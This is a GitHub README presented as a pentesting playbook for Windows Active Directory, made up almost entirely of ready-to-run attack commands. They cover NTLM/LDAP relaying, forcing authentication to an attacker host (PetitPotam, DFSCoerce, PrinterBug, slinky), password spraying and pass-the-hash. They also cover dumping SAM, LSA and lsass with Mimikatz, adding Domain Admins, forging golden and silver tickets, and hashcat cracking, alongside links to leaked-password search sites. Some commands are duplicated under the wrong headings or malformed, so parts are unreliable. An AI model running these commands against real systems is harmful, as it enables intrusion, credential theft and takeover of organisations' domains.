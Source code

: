 [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

https://www.n00py.io/2022/10/practical-attacks-against-ntlmv1/

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm

https://www.thehacker.recipes/ad/movement/dacl/addmember

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader-adc.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>  
  
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodhound
  ```
  ```shell
  sudo neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install netexec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>

  ### go-secdump
  https://github.com/jfjallid/go-secdump
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install golang-go
  git clone https://github.com/jfjallid/go-secdump
  cd go-secdump/
  go run main.go
  go build
  ```
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  cd FindUncommonShares/
  pip install -r requirements.txt
  ```
  </details>
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy
  
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Leaked password
<details>
  <summary> Sites </summary>   

  ### breachdirectory (free)
  https://breachdirectory.org/

  ### Records Search (free)
  https://search.0t.rocks/

  ### DeHashed
  https://www.dehashed.com/

  ### Snusbase
  https://snusbase.com/

  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

<details>
  <summary> NetExec host enumeration </summary> 
  
  #### NetExec map network hosts 
  ```shell
  NetExec smb <subnet>
  ```
  
</details>

# Acitve directory enumeration

<details>
  <summary> NetExec active users </summary> 

#### Get what users are enabled
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> --active-users
```

</details>

<details>
  <summary> NetExec password policy </summary> 

#### Get the password policy of the domain
```shell
NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> --pass-pol
```

</details>

<details>
  <summary> NetExec BloodHound dump all info </summary> 

#### Dump 
```shell
NetExec ldap <Domain_Controller_IP> -d <Domain> -u <AD_user> -p <AD_password> --bloodhound --collection All
```

</details>

<details>
  <summary> NetExec enumerate null sessions </summary> 

#### Check if Null Session is enabled
```shell
NetExec smb <Domain_Controller_IP> -u '' -p ''
NetExec smb <Domain_Controller_IP> -u '' -p '' --shares
NetExec smb <Domain_Controller_IP> -u '' -p '' --pass-pol
NetExec smb <Domain_Controller_IP> -u '' -p '' --users
NetExec smb <Domain_Controller_IP> -u '' -p '' --groups
```

</details>

<details>
  <summary> NetExec enumerate guest logon </summary> 

#### Check if domain guest account or the local guest account is enabled
```shell
NetExec smb <Domain_Controller_IP> -u 'a' -p ''
NetExec smb <Domain_Controller_IP> -u 'a' -p '' --shares
```

</details>

<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using netexec
      - Anonymous enumeration using netexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using netexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - netexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# MITM and Relaying
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  sudo responder -I eth0
  ```

  Switches for Responder
  * -d = DHCP 
  * -D = DHCP-DNS
  * -w = WPAD
  * -F = Force WPAD atuh
  * --lm = Force ntlmv1
  * --disable-ess = No ESS (Extended Session Security
  
 </details>
 <details>
  <summary> NetExec lnkfile with slinky </summary> 
  
  ### Creates a lnk file for a share with read/write rights
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP>
  ```
   
  ### Remove the lnk file
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP> CLEANUP=True
  ```
    
</details>
<details>
  <summary> NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec smb <IPs> --gen-relay-list <nosmbsigning.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo impacket-ntlmrelayx -of <outfile.txt> -tf <nosmbsigning.txt> -smb2support
  ```

  ### go-secdump NTLM Relaying
  ```shell
  ./go-secdump --host <target> -n --relay
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> LDAP-relay </summary>   

  ### Evaluate no ldap-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec ldap <IPs> -d <Domain_Name> -u <AD_user> -p <AD_password> -M ldap-checker
  ```

  ### NTLMRelayx escalate user to Enterprise Admins (DCSync rights)
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<target> --escalate-user <AD_user>
  ```

  ### NTLMRelayx delegate access
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<target> --delegate-access
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> NTLMv1-relay </summary>   

  ### NTLMRelayx delegate access if NTLMv1 is enabled
  #### Authentication can be forced via PetitPotam, DFSCoerce or PrinterBug, check if the answer is in NTLMv1
  ```shell
  sudo python3 ntlmrelayx.py -t ldaps://<target> --remove-mic -smb2support --delegate-access
  ```

</details>

<details>
  <summary> PetitPotam </summary> 
  
  ### Force NTLM authentication
  ```shell
  python3 PetitPotam.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
<details>
  <summary> DFSCoerce </summary> 
  
  ### Force NTLM authentication
  ```shell
  python3 dfscoerce.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 

<details>
  <summary> PrinterBug </summary> 
  
  ### Force NTLM authentication
  ```shell
  python3 printerbug.py '<Domain_Name>'/'<AD_user>':'<AD_password>'@'<target_IP>' <attacker_IP> 
  ```
</details>

# Password Spraying

<details>
  <summary> NetExec Password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  netexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 
  
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> 
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec rdp authentication </summary> 
  
  ```shell
  NetExec rdp <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares and export as xlsx </summary> 

```shell
python3 ./FindUncommonShares.py -au <username> -ap <password> -ad <AD_domain> -ai <Domain_Controller_IP> --readable --export-xlsx shares
```

</details> 

<details>
  <summary> Impacket smbclient </summary> 
  
### Passord authentication
```shell
impacket-smbclient <AD_domain>/<username>:<password>@<target_IP>
```

### Pass-the-Hash
```shell
impacket-smbclient -hashes <hash[LM:NT]> <username>:@<target_IP>
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Delegation abuse

<details>
  <summary> BloodHound query for Delegation rights </summary> 
  
  ```shell
  MATCH q=(u)-[:GenericWrite|GenericAll|WriteDacl|
WriteOwner|Owns|WriteAccountRestrictions|AllowedToAct|AllowedToDelegate]->(:Computer) WHERE NOT
u.objectid ENDS WITH "-512" AND NOT
u.objectid ENDS WITH "-519" AND NOT
u.objectid ENDS WITH "-544" AND NOT
u.objectid ENDS WITH "-548" RETURN q
  ```
</details> 

<details>
  <summary> Netexec Misconfigured Delegation </summary> 
  
  ### Misconfigured Delegation
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --find-delegation
  ```

  ### Unconstrained Delegation 
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 

<details>
  <summary> Resource-based Constrained Delegation </summary> 
  
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```

</details> 

<details>
  <summary> Unconstrained Delegation </summary> 
  
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 

<details>
  <summary> Constrained Delegation </summary> 
  
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 
    
</details> 

# Credential dumping

<details>
  <summary> Domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  ### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```
  ### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### NetExec Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```

  ### go-secdump Dump SAM with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --sam
  ```
  
  ### NetExec Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
   ### go-secdump Dump LSA with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --lsa
  ```

</details> 

<details>
  <summary> Local authentication </summary> 
  
  ### NetExec Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```

  ### sec-dump Dump SAM on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --sam --local
  ```
  
  ### NetExec Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### go-secdump Dump LSA on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --lsa --local
  ```

  ### NetExec  Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run Mimikatz from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run Mimikatz from host and write output to the share
  ```shell
  \\<target_IP>\<shareName>\mimikatz.exe "privilege::debug: sekurlsa::logonpasswords exit" > \\<target_IP>\<shareName>\output.txt
  ```
  
</details> 

<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, netexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```shell
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> -K <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
  #### Task Scheduler
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> pth-rpcclient </summary> 

  ```shell
  pth-rpcclient -U <AD_domain>/<username>%<hash[LM:NT]> <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> pth-net add new domain admin </summary> 

  ```shell
  pth-net rpc group addmem "Domain Admins" <username> -U <AD_domain>/<username>%<hash[LM:NT]> -S <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```

  #### Add an user to the domain admin
  ```ps
  powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

# Hash cracking
<details>
  <summary> Attack modes </summary> 

  ### Dictionary attack (-a 0)
  #### Tries all words in a list
  ```shell
  hashcat64.exe -m <hash_type> -a 0 <hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Combinator attack (-a 1)
  #### Combines words from multiple wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 1 <hashes.txt> <passlist1.txt> <passlist2.txt> -o cracked.txt
  ```

  ### Brute force (-a 3)
  #### Tries all characters from given charsets
  ```shell
  hashcat64.exe -m <hash_type> -a 3 <hashes.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 6)
  #### Combines wordlists+masks
  ```shell
  hashcat64.exe -m <hash_type> -a 6 <hashes.txt> <passlist.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 7)
  #### Combines masks+wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 7 <hashes.txt> ?a?a?a?a?a?a?a?a <passlist.txt> --increment -o cracked.txt
  ```

 #### Built-in charsets
 * ?l = abcdefghijklmnopqrstuvwxyz
 * ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
 * ?d = 0123456789
 * ?h = 0123456789abcdef
 * ?H = 0123456789ABCDEF
 * ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 * ?a = ?l?u?d?s
 * ?b = 0x00 - 0xff
 
 #### Password length increment
* --increment-min <number>
* --increment-max <number>
</details>

<details>
  <summary> Hash types </summary> 

  ### LM

  ```shell
  hashcat64.exe -m 3000 -a 3 <LM-hashes.txt> -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 <NTLM-hashes.txt> -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 <NTLMv1-hashes.txt> -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 <NTLMv2-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 <asrep-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
  hashcat64.exe -m 13100 -a 0 <krb5tgs-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 <krb5tgsaes128-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
  hashcat64.exe -m 19700  -a 0 <krb5tgsaes256.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 <krb5tetype17.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 <krb5tetype18.txt> <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 <mscache2-hashes.txt> <passlist.txt> -o cracked.txt
  ```
  </details>
